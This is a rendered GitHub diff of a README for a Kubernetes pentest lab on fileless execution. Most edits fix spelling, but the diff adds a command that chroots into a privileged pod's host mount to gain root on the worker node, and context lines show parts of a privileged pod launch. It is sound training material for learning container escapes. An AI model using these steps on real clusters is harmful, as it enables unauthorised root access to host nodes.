

Before and after one commit to kurtiepie/k8s_in_mem_lab, a Markdown page: README.md, 3 parts joined by grey strips. Drawn GitHub-style.

````diff
--- a/README.md
+++ b/README.md
@@ -28,7 +28,7 @@ In this tutorial, we'll explore the concept of fileless execution within Kuberne
 
 ## Lab Setup:
 <a id="item-zero"></a>
-Docker and Minikube are used as the infrastructe to make the lab as portable as possible.
+Docker and Minikube are used as the infrastructure to make the lab as portable as possible.
 ![N|Solid](./images/lab.png)
 ```sh
 cd k8syamls/
@@ -64,7 +64,7 @@ curl -i -s -k -X $'POST' \
 ```
 ## Step 2: Enumerating our envioment
 
-By checking the envoroment variables we can deduce that we are in a Kubernetes enviorment.
+By checking the environment variables we can deduce that we are in a Kubernetes environment.
 ```bash
 $ env
 KUBERNETES_PORT_443_TCP_PROTO=tcp
@@ -223,8 +223,9 @@ kubectl run everything-allowed-exec-pod --image=ubuntu --overrides='
 }' --labels=app=pentest --restart=Never
 ```
 
-## Now exec it and chroot the host mount at /host to elevate to root on the Worker node!
+## Now exec it and chroot the host mount at /host to elevate to root on the worker node!
 ```sh
+kubectl exec -it <badpod> -- /bin/sh -c 'chroot /host'
 ```
 # Tools
 
````
Also changed, not shown: other parts of README.md (+7 -10 lines).
